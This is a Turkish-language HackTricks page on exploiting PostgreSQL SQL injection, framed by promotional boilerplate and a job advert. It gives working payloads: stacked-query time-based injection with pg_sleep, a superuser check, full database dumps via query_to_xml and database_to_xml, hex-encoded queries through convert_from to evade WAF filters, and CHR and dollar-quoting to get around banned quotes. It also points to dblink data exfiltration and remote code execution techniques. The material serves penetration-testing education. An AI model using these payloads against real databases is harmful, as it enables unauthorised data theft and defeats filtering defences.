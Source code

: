 # PostgreSQL enjeksiyonu

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking hilelerinizi paylaşarak PR'lar göndererek HackTricks ve HackTricks Cloud github depolarına katkıda bulunun.**

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde Lehçe yazılı ve konuşma gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

***

Bu sayfa, postgresql veritabanında bulunan bir SQL enjeksiyonunu sömürmenize yardımcı olabilecek farklı hileleri açıklamayı amaçlamaktadır ve bu hileleri tamamlamak için [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) adresinde bulabileceğiniz hilelerle tamamlanmıştır.

## Ağ Etkileşimi - Yetki Yükseltme, Port Tarama, NTLM meydan okuma yanıtı ifşası ve Veri Çıkarma

**PostgreSQL modülü `dblink`**, diğer PostgreSQL örneklerine bağlanma ve TCP bağlantıları yürütme yetenekleri sunar. Bu özellikler, `COPY FROM` işlevi ile birleştirildiğinde, yetki yükseltme, port tarama ve NTLM meydan okuma yanıtı yakalama gibi eylemleri mümkün kılar. Bu saldırıları nasıl gerçekleştireceğinizi ayrıntılı olarak öğrenmek için [bu saldırıları nasıl gerçekleştireceğinizi](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md) kontrol edin.

### **dblink ve büyük nesneler kullanarak Veri Çıkarma örneği**

Bir CTF örneğini görmek için [**bu örneği**](dblink-lo\_import-data-exfiltration.md) inceleyebilirsiniz. Bu örnek, büyük nesneler içine veri yükleme ve daha sonra `dblink_connect` fonksiyonunun kullanıcı adı içindeki büyük nesnelerin içeriğini dışa aktarma hakkında bilgi vermektedir.

## PostgreSQL Saldırıları: Okuma/Yazma, Uzaktan Kod Çalıştırma, yetki yükseltme

PostgreSQL'den ana bilgisayarı tehlikeye atma ve ayrıcalıkları yükseltme hakkında bilgi almak için:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF atlatma

### PostgreSQL Dize işlevleri

Dizeleri manipüle etmek, **WAF'leri veya diğer kısıtlamaları atlatmanıza** yardımcı olabilir.\
[**Bu sayfada** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**bazı kullanışlı Dize işlevlerini bulabilirsiniz.**

### Yığılmış Sorgular

Postgresql'in yığılmış sorguları desteklediğini unutmayın, ancak birçok uygulama, yalnızca 1 yanıt beklerken 2 yanıt döndüğünde hata verecektir. Ancak, yığılmış sorguları Zaman enjeksiyonu aracılığıyla hala kötüye kullanabilirsiniz:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML hileleri

**query\_to\_xml**

Bu işlev, tüm verileri sadece bir dosyada XML formatında döndürecektir. Eğer çok miktarda veriyi sadece 1 satırda dökmek istiyorsanız idealdir:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Bu işlev, tüm veritabanını XML formatında sadece 1 satırda dökecektir (veritabanı çok büyükse dikkatli olun, çünkü DoS saldırısına neden olabilir veya hatta kendi istemcinizi etkileyebilirsiniz):
```sql
SELECT database_to_xml(true,true,'');
```
### Hexadecimal Dizeler

Eğer sorguları bir dize içinde çalıştırabiliyorsanız (örneğin **`query_to_xml`** fonksiyonunu kullanarak), dizeyi onaltılık olarak geçmek için **`convert_from`** kullanabilir ve bu şekilde filtreleri atlayabilirsiniz:
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Yasaklı tırnaklar

Eğer payload'ınızda tırnak kullanamıyorsanız, temel kelimeler için `CHR` kullanarak bunu atlayabilirsiniz (_karakter birleştirme yalnızca SELECT, INSERT, DELETE vb. gibi temel sorgular için çalışır. Tüm SQL ifadeleri için çalışmaz_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Veya `$` ile. Bu sorgular aynı sonuçları döndürür:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde Lehçe yazılı ve konuşma gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hacking öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın(https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [Discord grubuna](https://discord.gg/hRep4RUj7f) katılın veya [telegram grubuna](https://t.me/peass) katılın veya** bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
